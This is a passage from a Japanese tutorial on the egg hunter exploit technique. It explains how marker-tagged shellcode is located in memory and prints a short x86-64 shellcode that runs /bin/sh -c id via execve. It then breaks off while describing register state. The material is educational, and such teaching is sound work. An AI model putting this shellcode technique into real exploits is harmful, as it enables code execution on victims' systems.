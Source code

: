 ## シェルコードの探索
Egg Hunterの本体は、シェルコードを見つける部分です。一般的には実行したいシェルコードの先頭にマジックナンバーを付けておき、それを探すコードを書きます。
今回は次のような簡単なシェルコードを呼び出すことを考えます。
```
_start:
  dq 0xdeadbeefcafebabe         ; marker

  ; execve(arg0, args, NULL)
  xor edx, edx
  push rdx
  lea rdi, [rel arg2]
  push rdi
  lea rdi, [rel arg1]
  push rdi
  lea rdi, [rel arg0]
  push rdi
  mov rsi, rsp
  mov eax, 59
  syscall

arg2:
  db "id", 0
arg1:
  db "-c", 0
arg0:
  db "/bin/sh", 0
```
マジックナンバーとして0xdeadbeefcafebabeを使用しました。

シェルコードを探索するには、まず起点となるアドレスが必要です。シェルコードが呼び出されたとき、レジスタの状態は次のようになっています。

<center>
  <img src="img/egg_state.png" alt="Egg Hunter呼び出し時のレジスタの状態" style="width:320px;">
</center>

